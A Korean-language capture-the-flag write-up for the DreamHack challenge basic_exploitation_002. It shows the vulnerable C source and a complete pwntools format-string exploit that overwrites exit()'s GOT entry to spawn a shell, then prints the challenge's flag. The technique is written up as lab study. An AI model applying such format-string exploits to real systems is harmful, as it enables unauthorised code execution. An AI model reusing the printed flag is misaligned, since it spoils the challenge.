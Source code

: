 # [DreamHack] basic_exploitation_002

:writing_hand: [h0meb0dy](mailto:h0meb0dysj@gmail.com)

> 이 문제는 서버에서 작동하고 있는 서비스(basic_exploitation_002)의 바이너리와 소스 코드가 주어집니다.
> 프로그램의 취약점을 찾고 익스플로잇해 셸을 획득한 후, “flag” 파일을 읽으세요.
> “flag” 파일의 내용을 워게임 사이트에 인증하면 점수를 획득할 수 있습니다.
> 플래그의 형식은 DH{…} 입니다.
>
> Release: [basic_exploitation_002.zip](https://github.com/h0meb0dy/Dreamhack-Wargame/files/8548697/basic_exploitation_002.zip)

## Mitigation

![image](https://user-images.githubusercontent.com/102066383/160266469-1d263686-cebd-48ea-9bf2-ab39b1af2038.png)

## Analysis

```c
void get_shell() {
    system("/bin/sh");
}

int main(int argc, char *argv[]) {

    char buf[0x80];

    initialize();

    read(0, buf, 0x80);
    printf(buf);

    exit(0);
}
```

`printf(buf)`에서 FSB가 발생한다. 이를 이용하여 `exit()`의 GOT를 `get_shell()`의 주소로 덮으면 셸을 획득할 수 있다.

## Exploit

```python
from pwn import *

REMOTE = True

if not REMOTE:
    r = process('./release/basic_exploitation_002')
else:
    r = remote('host1.dreamhack.games', 12914)

get_shell = 0x8048609  # get_shell()
exit_got = 0x804a024  # GOT of exit()

get_shell_high = get_shell >> 16  # high 2bytes of get_shell()
get_shell_low = get_shell & 0xffff  # low 2bytes of get_shell()

payload = '%' + str(get_shell_low) + 'c%9$hn'
payload += '%' + str(0x10000 + get_shell_high - get_shell_low) + 'c%10$hn'
payload = payload.ljust(0x1f, 'a').encode()
payload += b'b'
payload += p32(exit_got)
payload += p32(exit_got + 2)

r.send(payload)
r.recvuntil('b')

r.interactive()
```

```
$ python3 solve.py
[+] Opening connection to host1.dreamhack.games on port 12914: Done
[*] Switching to interactive mode
$\xa0\x04&\xa0\x04\xff\xff\xff\xff/$ cat flag
DH{59c4a03eff1e4c10c87ff123fb93d56c}
```